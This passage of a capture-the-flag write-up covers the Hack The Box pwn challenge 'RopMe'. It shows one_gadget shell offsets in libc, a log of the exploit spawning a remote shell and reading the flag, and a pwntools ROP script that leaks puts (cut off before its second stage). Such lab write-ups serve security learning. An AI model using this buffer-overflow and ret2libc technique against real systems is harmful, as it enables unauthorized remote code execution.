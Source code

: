```bash
kali@kali:/opt/libc-database/libs/libc6_2.23-0ubuntu10_amd64$ one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
With this we only need to calculate the base address of libc from the leak, add the address to the system call to `/bin/sh` to it and send it together with 72 bytes of junk to get a shell:
```bash
kali@kali:~/HTB/challenges/pwn/RopMe$ python xpl.py
[+] Opening connection to docker.hackthebox.eu on port 31910: Done
[+] Leaked puts address: 0x7f7aa52fd690
[*] Switching to interactive mode
$ ls
flag.txt
ropme
spawn.sh
$ cat flag.txt
HTB{redacted}
```
# Appendix
## Code
```py
#!/usr/bin/env python3

from pwn import *

HOST = "docker.hackthebox.eu"
PORT = 30948

junk     = b'A'*72
puts_plt = p64(0x4004e0)
pop_rdi  = p64(0x4006d3)
ret_main = p64(0x400626)
puts_got = p64(0x601018)

#p = process('./ropme')
p = remote(HOST, PORT)
p.recvline_contains("ROP me outside")

payload = b''
payload += junk
payload += pop_rdi + puts_got + puts_plt + ret_main # calls main after 1st return

# Part one
p.sendline(payload)
leaked_puts = u64(p.recvline()[:-1].ljust(8, b'\x00'))
log.success("Leaked puts address: 0x%x" % leaked_puts)

# Part two
```